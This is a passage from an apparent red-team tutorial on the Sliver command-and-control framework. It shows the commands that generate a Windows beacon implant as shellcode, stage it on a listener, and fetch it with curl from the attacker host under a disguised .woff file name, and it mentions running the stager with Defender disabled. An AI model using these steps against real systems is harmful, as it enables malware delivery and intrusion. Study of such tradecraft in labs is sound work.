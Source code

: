 Then we can generate an implant from our profile using `profiles generate <profile name>`, view the configuration of our implant by typing `implants`, and serve the stage listener using `implants stage`.

```
sliver > profiles generate meow

[*] Generating new windows/amd64 beacon implant binary (1m0s)
[*] Build completed in 7s
[*] Implant saved to /home/kali/sliver/COMPLICATED_GYRO.bin

sliver > implants

 Name                       Implant Type              Template   OS/Arch            Format   Command & Control           Debug   C2 Config   ID      Stage 
========================== ========================= ========== =============== =========== =========================== ======= =========== ======= =======
COMPLICATED_GYRO           beacon                    sliver     windows/amd64   SHELLCODE   [1] https://192.168.7.130   true    default     55752   false 

sliver > implants stage

? Select sessions and beacons to expose:  [Use arrows to move, space to select, <right> to all, <left> to none, type to filter]
> [x]  COMPLICATED_GYRO

```

Sweet, now if we curl our IP address, provide any file name with the preconfigured stage-listener extension of `.woff`, and provide the `Template ID` as seen in our configuration when running ` implants` as a URL parameter, we can see the endpoint provides us with a binary. However, simply visiting the IP address, a different extension, or another ID number, you are provided nothing.

```
(kali㉿kali)-[~]
└─$ curl http://192.168.7.130/pwned.woff?x=55752
Warning: Binary output can mess up your terminal. Use "--output -" to tell curl to output it to your terminal anyway, or consider "--output <FILE>" to save 
Warning: to a file.
                                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.7.130/pwned.woff?x=1    
                                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.7.130/pwned         
                                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.7.130   
```

The binary output from the endpoint we are sending a web request to in our script is the shellcode provided by the HTTP stage-listener. Let's run the script without defender enabled on our system and look at how our network signature changes in process monitor.
